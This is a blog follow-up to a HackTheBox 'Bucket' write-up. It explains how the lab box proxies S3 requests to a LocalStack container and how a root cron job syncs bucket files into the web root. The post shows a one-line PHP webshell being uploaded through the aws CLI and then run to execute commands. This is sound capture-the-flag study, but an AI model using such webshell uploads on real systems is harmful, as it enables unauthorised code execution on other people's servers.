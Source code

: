 # More Bucket Beyond Root

[ctf](/tags#ctf ) [htb-bucket](/tags#htb-bucket )
[hackthebox](/tags#hackthebox ) [s3](/tags#s3 ) [aws](/tags#aws )
[awscli](/tags#awscli ) [apache](/tags#apache ) [docker](/tags#docker )
[localstack](/tags#localstack ) [cron](/tags#cron )
[automation](/tags#automation )  
  
May 3, 2021

  * [HTB: Bucket](/2021/04/24/htb-bucket.html)
  * More Beyond Root

![cascade](https://0xdfimages.gitlab.io/img/bucket-more-cover.png)

@teh_zeron reach out on twitter to ask why there’s no images directory in the
webroot on Bucket. I showed how my PHP webshell will show up there, and the
index page seems to always be there. I’ll look closely at how Bucket was set
up, how different requests are handled, and the automation that is syncing
between the host and the container.

## Requests Routing

To look at this, I’ll start with what I know about Bucket, it’s listening
ports, and it’s containers:

![](https://0xdfimages.gitlab.io/img/bucket-layout.png)

Requests to bucket.htb (and really anything ending in bucket.htb that isn’t
s3.bucket.htb) will be served out of `/var/www/html` on Bucket. Requests to
s3.bucket.htb as passed with the `ProxyPass` directive in the
`/etc/apache2/site-enabled/000-default.conf` file:

    
    
            ProxyPass / http://localhost:4566/
            ProxyPassReverse / http://localhost:4566/
    

`docker ps` shows that port 4566 on localhost is being forwarded to 4566 on
the localstack container:

    
    
    root@bucket:~# docker ps
    CONTAINER ID        IMAGE                          COMMAND                  CREATED             STATUS              PORTS                                               NAMES
    444af250749d        localstack/localstack:latest   "docker-entrypoint.sh"   7 months ago        Up 30 minutes       4567-4597/tcp, 127.0.0.1:4566->4566/tcp, 8080/tcp   localstack
    

This is how far I went in the original [Beyond Root](/2021/04/24/htb-
bucket.html#beyond-root) section (without the nice picture).

## Requests

### Background

I’ll look at a few requests and how they are handled.

When I tried to visit the page by IP in Firefox, it redirected me to
`bucket.htb` (that’s also in the `000-default.conf` file). `http://bucket.htb`
is simply served from `/var/www/html/index.html`.

Within that page, there were images, with sources like
`http://s3.bucket.htb/adserver/images/bug.jpg`. Referencing the image above,
when this request is made, it’s forwarded to the localstack container, which
returns the image.

I also noted that `http://s3.bucket.htb/adserver/index.html` loaded what
looked like the `index.html` page. This doesn’t have to be the case, but isn’t
surprising. Perhaps the site is backing up the `index.html` page in the cloud.

### Upload

With that in mind, I uploaded a PHP shell using the `aws` command line
utility:

    
    
    oxdf@parrot$ aws s3 --endpoint-url http://s3.bucket.htb cp /opt/shells/php/cmd.php s3://adserver/
    upload: ../../../../opt/shells/php/cmd.php to s3://adserver/cmd.php
    

Immediately after doing that, there’s no `cmd.php` on `bucket.htb`, but there
is one in the S3 bucket:

    
    
    oxdf@parrot$ curl http://bucket.htb/cmd.php?cmd=id
    <!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
    <html><head>
    <title>404 Not Found</title>
    </head><body>
    <h1>Not Found</h1>
    <p>The requested URL was not found on this server.</p>
    <hr>
    <address>Apache/2.4.41 (Ubuntu) Server at bucket.htb Port 80</address>
    </body></html>
    oxdf@parrot$ curl http://s3.bucket.htb/adserver/cmd.php?cmd=id
    <?php system($_REQUEST["cmd"]); ?>
    

But the webshell isn’t executed from s3. That makes sense, as it’s meant to be
static storage, not hosting a full featured site.

If I wait for the minute to roll and check again, now the webshell is there
and executing:

    
    
    oxdf@parrot$ curl http://bucket.htb/cmd.php?cmd=id
    uid=33(www-data) gid=33(www-data) groups=33(www-data)
    

## Sync

### sync.sh

The webshell makes it from the localstack container to the host when an
automation script runs on Bucket.

As root, there are three crons:

    
    
    root@bucket:~# crontab -l
    ...[snip]...
    # m h  dom mon dow   command
    @reboot /root/start.sh
    * * * * *       /root/sync.sh
    * * * * *       rm /var/www/bucket-app/files/*
    

The first runs on boot, and starts the containers. The third is related to the
application running on localhost, bucket-app (used in the privesc).

`/root/sync.sh` is important here:

    
    
    #!/bin/bash
    
    rm -rf /root/files/*
    aws --endpoint-url=http://localhost:4566 s3 sync s3://adserver/ /root/files/ --exclude "*.png" --exclude "*.jpg"
    cp -R /root/files/* /var/www/html/
    

It clears the files in a local directory in `/root`. It then syncs everything
from s3 excluding images over to a new clean folder. Then it copies everything
from that folder into `/var/www/html`. I had noted that the files in
`/var/www/html` were owned by root, yet somehow written by www-data. This
explains that.

### images

So my guess at this point is that the `images` directory isn’t copies because
none of the files in it are synced. I can verify that. I’ll run the `aws sync`
command without the excludes.

    
    
    root@bucket:~# aws --endpoint-url=http://localhost:4566 s3 sync s3://adserver/ /tmp/.0xdf/
    download: s3://adserver/images/bug.jpg to ../tmp/.0xdf/images/bug.jpg
    download: s3://adserver/index.html to ../tmp/.0xdf/index.html      
    download: s3://adserver/images/malware.png to ../tmp/.0xdf/images/malware.png
    download: s3://adserver/images/cloud.png to ../tmp/.0xdf/images/cloud.png
    

The images directory and everything in it is copied into the target folder.

Or showing it the other way, if I upload a non-`png` and non-`jpg` file to the
images folder and wait for the cron to run, then the `images` folder is copied
into `/var/www/html`:

    
    
    root@bucket:~# find /var/www/html/
    /var/www/html/
    /var/www/html/index.html
    /var/www/html/images
    /var/www/html/images/cmd.php
    

[« HTB: Bucket](/2021/04/24/htb-bucket.html)

[](/2021/05/03/more-bucket-beyond-root.html)

